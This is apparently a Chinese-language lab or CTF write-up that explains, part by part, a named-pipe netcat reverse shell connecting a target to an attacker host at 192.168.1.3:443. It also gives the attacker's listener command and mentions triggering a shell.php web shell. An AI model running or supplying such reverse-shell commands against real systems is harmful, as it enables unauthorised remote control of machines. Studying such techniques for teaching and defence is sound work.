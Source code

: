 cat /tmp/f：

- 读取 /tmp/f 的内容并输出。
- 由于 /tmp/f 是命名管道，cat 会阻塞，直到有数据写入。

| /bin/sh -i 2>&1：

- |：将 cat 的输出作为 /bin/sh -i 的输入。
- /bin/sh -i：启动一个交互式 Shell（可能是 bash 或 dash）。
- 2>&1：将标准错误（stderr）重定向到标准输出（stdout），确保所有 Shell 输出（包括错误）都被传递。
- 目的：生成目标系统的 Shell 输出，并将其发送到管道。

| nc 192.168.1.3 443：

- nc（netcat）：将 Shell 的输出通过网络发送到 192.168.1.3 的 443 端口。
- 目的：建立与攻击者控制的机器的连接，将 Shell 输出传输过去。

/tmp/f：

- 将 nc 接收到的数据（攻击者的输入命令）重定向回 /tmp/f。
- 由于 /tmp/f 是命名管道，cat 会读取这些数据并传递给 Shell，形成双向通信。
- 目的：实现交互式 Shell，允许攻击者发送命令并接收响应。



执行流程：

- 命令创建命名管道 /tmp/f，并通过 nc 连接到攻击者机器 192.168.1.3:443。

- /bin/sh -i 提供交互式 Shell，输出通过 nc 发送给攻击者，攻击者的输入通过管道返回 Shell。

效果：

- 攻击者在 192.168.1.3:443 上运行监听程序（例如 nc -lvnp 443），即可接收目标机器的 Shell。

- 攻击者可以输入命令（例如 whoami、id），并获取目标系统的响应。



#### 本地开启监听

```
nc -lvnp 443
```

![image-20250316220211725](assets/image-20250316220211725.png)



#### 访问shell.php

![image-20250316220203917](assets/image-20250316220203917.png)
